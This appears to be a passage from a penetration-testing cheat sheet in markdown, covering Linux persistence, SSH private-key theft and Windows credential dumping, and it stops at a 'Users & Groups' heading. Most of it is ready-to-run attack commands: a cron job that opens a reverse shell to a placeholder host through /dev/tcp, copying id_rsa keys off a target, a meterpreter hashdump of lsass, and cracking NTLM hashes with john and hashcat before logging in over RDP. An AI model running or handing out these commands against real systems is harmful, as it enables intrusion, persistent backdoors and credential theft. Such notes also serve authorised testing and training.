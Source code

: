 #### Persistence

##### Cron Jobs

```bash
ssh <user>@<ip>
# list cron jobs
$ cat /etc/cron*
# create backdoor cron jobs
$ echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1" > my_cron
nc -lvnp <port>
```

##### SSH keys

```bash
ssh <user>@<ip>
$ cd ~/.ssh
$ cat id_rsa
# copy the priv key
scp <user>@<ip>:~/.ssh/id_rsa .
chmod 400 id_rsa
ssh -i id_rsa <user>@<ip>
```

### Windows

#### Hashes

```bash
m> getprivs
m> pgrep lsass
m> migrate <id>
m> hashdump
<hashes>
# paste hashes in hashes.txt
```

```bash
john --list=formats
john --format=NT hashes.txt [--wordlist=<wordlist>]
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
# id 1000 for NTLM
hashcat -a3 -m 1000 hashes.txt rockyou.txt
```

```bash
xfreerdp /u:<username> /p:<password> /v:<ip>
```

#### Local Enumeration

##### Users & Groups
